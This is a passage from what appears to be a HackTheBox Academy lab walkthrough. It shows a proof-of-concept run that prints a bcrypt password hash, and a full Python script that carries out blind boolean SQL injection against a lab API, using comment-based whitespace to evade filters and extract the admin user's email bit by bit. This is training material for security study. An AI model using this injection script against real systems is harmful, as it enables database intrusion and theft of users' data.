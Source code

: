 After running the script, students will attain the password hash `$2a$12$QZzWJum2XkulScJtJDrZz.GFpVRjKgU.Sq7Ov1.mWYyn0W8YhIQgG`:

Code: shell

```shell
python3 poc.py
```

```
┌─[us-academy-1]─[10.10.14.189]─[htb-ac-413848@htb-mvfnzfbewn]─[~/Pass2SourceCode]
└──╼ [★]$ python3 poc.py

$2a$12$QZzWJum2XkulScJtJDrZz.GFpVRjKgU.Sq7Ov1.mWYyn0W8YhIQgG
```

Subsequently, students need to exfiltrate the email of the user `admin`:

Code: python

```python
emailLength = dumpNumber("email");
email = dumpString("email", emailLength)
print(email)
```

Code: python

```python
#!/usr/bin/env python3

import requests, json, sys
from urllib.parse import quote_plus

def oracle(query):
    existingUser = "admin"
    whitespace = "/*-*/"
    baseURL = f"http://STMIP:8080/api/v1/check-user?u={existingUser}"
    SQLiPayload = f''''{whitespace}And{whitespace}({query.replace(" ", whitespace)})--{whitespace}-'''
    response = requests.get(baseURL + quote_plus(SQLiPayload))
    jsonResponse = json.loads(response.text)
    return jsonResponse["exists"] == True

def dumpNumber(fieldToDump):
    length = 0
    for p in range(0, 7):
        if oracle(f"(Select Length({fieldToDump}) From users Where username = 'admin') & {2**p} > 0"):
            length |= 2**p
    return length

def dumpString(fieldToDump, length):
    string = ""
    for i in range(1, length + 1):
        character = 0
        for p in range (0, 7):
            if oracle(f"(Select Ascii(Substring({fieldToDump},{i},1)) From users Where username = 'admin') & {2**p} > 0"):
                character |= 2**p
        string += chr(character)
    return string

emailLength = dumpNumber("email");
email = dumpString("email", emailLength)
print(email)
```
